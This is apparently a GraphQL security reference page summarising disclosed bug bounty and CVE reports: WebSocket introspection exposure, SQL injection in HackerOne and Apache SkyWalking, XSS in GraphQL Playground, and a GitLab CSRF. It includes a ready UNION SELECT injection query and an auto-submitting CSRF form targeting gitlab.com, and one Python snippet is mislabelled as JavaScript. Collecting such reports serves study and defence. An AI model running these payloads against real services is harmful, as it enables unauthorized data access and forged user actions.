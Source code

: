 * **Accessing the Introspection Query via WebSocket (Nuri):** A vulnerability was found in Nuri where the introspection query was accessible via WebSocket .

{% embed url="https://hackerone.com/reports/862835" %}

### Injection

* **SQL Injection in a GET Query Parameter (HackerOne):** A SQL injection vulnerability was found in a HackerOne application in a GET query parameter . This showed how GraphQL endpoints can be vulnerable to common injection attacks through GET requests.

{% embed url="https://hackerone.com/reports/435066" %}

* **SQL Injection in an Object Argument (Apache SkyWalking):** A SQL injection vulnerability was found in Apache SkyWalking where the vulnerability was located in an object argument . A code review revealed that the vulnerability stemmed from a lack of sanitization when constructing SQL queries using client-supplied data .

```graphql
query SQLi($d: Duration!) {
    getLinearIntValues(metric:{name: "all_p99", id: "') UNION SELECT 1,CONCAT('~','9999999999','~')--"},duration: $d) {
        values {
            value
        }
    }
}
```

{% embed url="https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-9483.yaml" %}

* **Cross-Site Scripting (GraphQL Playground):** A cross-site scripting vulnerability was found in GraphQL Playground .

```javascript
class UserObject(SQLAlchemyObjectType):
    class Meta:
        name = "MyMaliciousTypeName"
        model = User
```



### Cross-Site Request Forgery (CSRF)

* A CSRF vulnerability was found in GitLab . The following GraphQL mutation was used to exploit the vulnerability:

{% embed url="https://hackerone.com/reports/1122408" %}

```html
<form action="https://gitlab.com/api/graphql/" id="csrf-form" method="GET"> ❶
    <input name= "query" value="mutation CreateSnippet($input: CreateSnippetInput!) --snip--">
    <input name= "variables" value='{"input":{"title":"Tesssst Snippet"} --snip--'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

```graphql
mutation CreateSnippet($input: CreateSnippetInput!) {
  createSnippet(input: $input) {
    errors
    snippet {
      webUrl
      __typename
    }
    --snip--
  }
}
```
